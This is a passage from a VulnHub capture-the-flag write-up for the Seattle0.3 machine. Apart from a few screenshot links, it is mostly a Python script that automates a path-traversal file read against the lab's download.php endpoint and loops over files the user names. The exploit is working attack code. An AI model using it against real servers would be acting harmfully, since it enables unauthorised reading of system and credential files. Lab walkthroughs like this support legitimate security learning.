 ![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-12-VulnHub-Seattle0.3/2021-11-12-VulnHub-Seattle0.3%2001:31:49.png)

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-12-VulnHub-Seattle0.3/2021-11-12-VulnHub-Seattle0.3%2001:32:23.png)

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-12-VulnHub-Seattle0.3/2021-11-12-VulnHub-Seattle0.3%2001:32:34.png)

Let's make a python script to get it auto too

And here it is

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-12-VulnHub-Seattle0.3/2021-11-12-VulnHub-Seattle0.3%2001:37:58.png)

path_transversal.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Auto File Read LFI - Path Transversal
# Seattle0.3 Level 1 - VulnHub

import argparse
import requests
import sys
from bs4 import BeautifulSoup
import re

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Let's read files!
def readFile(rhost):
    url_ori = "http://%s:80/download.php?item=" %rhost
    print("[+] Type exit to exit ! [+]")
    prefix = "Reading file: "
    file = ""
    cookies = {'level':'1'}
    while True:
        file = input(prefix)
        if file != "exit":
            url = url_ori + "/../../../../../../../..%s" %file
            headers = {"Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"}
            output = r.get(url,headers=headers,proxies=proxies,cookies=cookies)
            if output.headers['Content-Length'] == "41":
                print()
                print("[+] File does NOT EXIST !!! Or I can't read it !!! [+]")
                print()
            else:
                read = str(output.text)
                read = read.removesuffix('\n')
                read = read.removesuffix('<div class="products-list"></div>')
                read = read.removesuffix('\n')                
                read = read.removesuffix('</div>')
                print()
                print(read)
        else:
            print()
            print("[+] Exxxxitting.... !! [+]")
            print()
            break

def main():
    # Parse Arguments
```